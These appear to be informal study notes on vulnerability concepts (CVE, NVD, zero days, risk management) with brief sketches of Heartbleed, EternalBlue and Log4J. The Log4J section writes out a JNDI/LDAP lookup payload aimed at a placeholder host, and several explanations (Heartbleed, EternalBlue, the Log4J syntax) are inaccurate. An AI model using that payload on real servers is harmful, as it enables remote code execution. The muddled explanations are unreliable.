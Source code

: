   

> **Vulnerability :** a weakness in computational logic (code) found in software and hardware components , when exploited , results in a negative impact to CIA triangle

> the **Vulnerability** not just a code , maybe ⇒ people , physical , cards , ….

> u can found a **Vulnerability** in a ==Software & OS==

> who found it ⇒ Devsecops , security researcher , pentester ,software developers , users , on accident

  

> **CVE ⇒ common Vulnerability and exposures ,**

> **NVD ⇒** **National Vulnerability Database , NIST**

  

- Zero Day ⇒ it’s the ==_Vulnerability that no one or on body , no else , reported it before to the CVE org_==

  

- ==_**Risk Management**_== ⇒ u need to understand your recommendations go to overall risk management concept , ( how to spend the money and where we will spend it , what is the priority here …)

> So if we have a low severity Vulnerability , that’s internal , we should not spend a lot of money and time to solve it , we can process this in a better way with low budget ⇒ this is a Risk Management

  

- ==CVE (Heartbleed) ⇒ buffer over read==
    
    > we will run the nmap to perform the services that running , so we found a openSSL 1.0.0 so we know that vanl version
    
    > so now by the TSL handshack through the tcp handshack , the user send his password to the server as a ( value && length ) .z
    
    > now the server return with confirmed , based on the password length , so the server confirmed that by password length
    
    > If u try to modify the length of password u will see ⇒
    
    > here the server return with the password with confirmed , but it’s return with extra data ⇒ ==**_in memory what ever the next 40 char the server will return , because it’s confirmed the password by the length , so if u enter a long length the server confused and return what the next 40 chr after the password ._**==
    
      
    

  

- ==CVE (EternalBlue-MS17-010) ⇒ rce in windows server==
    
    > so here we scan the server by nmap , we found a SMBv1 and it’s vanl
    
    > so we will send a malicious payload(web shell) with the SMB packet to the server ,so that will take advantage of buffer overflow so that will be a vanl to rce
    

  

- ==CVE (Log4J) ⇒ logging to the server by java==
    
    > so scan to service by nmap , we will see a vanl web server ( a lot of server has this )
    
    > so this vanl happen in windows application , there are many windows application running in java , so we need to search for input filed , so as a example in mincraft we have the server chat , so the java library take this input and fails to pares it as a string and execute it as a command to logged onto the server hosting , as a example we enter `$(jndi:ldap://example.com:port/mycode)` , so here the $ to be a variable then the jndi ( it’s java naming and directory interface) to lookup for code after it , this useful for developer because it will keep his code simple , agail , less process , less storage , so then the ldap ⇒ the protocol that used to interact remotely with database , so here the java fail to parse the input as a text and execute it as a code , so that input will logged to the server .
    

  

- Nessus ⇒ it’s Gui tools , is grate tools u can use to scan for vunl

  

- searchsploit ⇒ to search for exploit in metasploit
